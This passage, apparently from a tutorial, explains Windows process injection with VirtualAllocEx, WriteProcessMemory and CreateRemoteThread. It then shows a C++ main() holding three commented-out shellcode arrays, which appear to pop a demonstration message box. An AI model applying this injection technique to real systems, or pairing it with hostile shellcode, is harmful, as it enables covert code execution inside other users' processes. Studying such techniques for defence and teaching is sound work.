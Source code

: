 Now everything is set. We have obtained the PID, and using <span style = "color:lightgreen;">VirtualAllocEx</span>, allocated space in the remote process for the shellcode. Using <span style = "color:lightgreen;">WriteProcessMemory</span>, we copy the shellcode into that buffer. Then, create a thread using <span style = "color:lightgreen;">CreateRemoteThread</span> and pass the pointer to the shellcode as lpStartAddress to be executed by the thread.

```c++
int main()
{
	// unsigned char shellcode[] = "\x31\xc9\xf7\xe1\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x58\x10\x8b\x53\x3c\x01\xda\x8b\x52\x78\x01\xda\x8b\x72\x20\x01\xde\x31\xc9\x41\xad\x01\xd8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x72\x24\x01\xde\x66\x8b\x0c\x4e\x49\x8b\x72\x1c\x01\xde\x8b\x14\x8e\x01\xda\x89\xd5\x31\xc9\x51\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x53\xff\xd2\x68\x6c\x6c\x61\x61\x66\x81\x6c\x24\x02\x61\x61\x68\x33\x32\x2e\x64\x68\x55\x73\x65\x72\x54\xff\xd0\x68\x6f\x78\x41\x61\x66\x83\x6c\x24\x03\x61\x68\x61\x67\x65\x42\x68\x4d\x65\x73\x73\x54\x50\xff\xd5\x83\xc4\x10\x31\xd2\x31\xc9\x52\x68\x50\x77\x6e\x64\x89\xe7\x52\x68\x59\x65\x73\x73\x89\xe1\x52\x57\x51\x52\xff\xd0\x83\xc4\x10\x68\x65\x73\x73\x61\x66\x83\x6c\x24\x03\x61\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x53\xff\xd5\x31\xc9\x51\xff\xd0";
	// unsigned char shellcode[] = "\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";
	// unsigned char shellcode[] = "\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24\x2C\x57\x68\x4F\x5F\x6F\x21\x8B\xDC\x57\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24\x40\xFF\x54\x24\x40\x57\xFF\xD0";
```